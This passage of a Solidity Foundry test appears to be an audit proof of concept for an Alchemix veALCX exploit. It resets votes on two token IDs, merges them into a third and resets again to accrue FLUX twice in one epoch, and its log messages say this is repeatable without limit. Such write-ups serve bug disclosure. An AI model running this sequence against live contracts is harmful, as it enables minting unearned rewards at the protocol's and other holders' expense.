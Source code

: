 ``` 



        skip(2 weeks + 2);

        vm.startPrank(address(voter));

        minter.updatePeriod();

        vm.stopPrank();

        vm.startPrank(holder);

        voter.reset(id1);
        voter.reset(id2);


        uint256 unclaimedBalance2 = flux.getUnclaimedFlux(id1);

        console.log("The FLUX Balance of id1 or id2 after resetting is : ", unclaimedBalance2);


        console.log("now we will merge id1 & id2 to id3");

        veALCX.merge(id1, id3);
        veALCX.merge(id2, id3);


        uint256 unclaimedBalance3 = flux.getUnclaimedFlux(id3);

        console.log("The id3 FLUX Balance after merging with the 2 ids is : ", unclaimedBalance3);

        voter.reset(id3);


        console.log("<---------------->");
        console.log("we can now accrue flux when resetting even if we already accrued previously for id 1 & 2 in the same epoch!!");


        uint256 unclaimedBalance4 = flux.getUnclaimedFlux(id3);

        console.log("The FLUX Balance after resetting the new merged token id3 is : ", unclaimedBalance4);

        console.log("<---------------->");
        console.log("If we subtract the total final flux balance with exploit - balance in normal sitaution(in test above)");
        console.log("the user now with the same balance in the previous test could gain 191234164129883298893351 more flux !");
        console.log("and the attacker can repeat that INFINITELY ");


  }

}
```
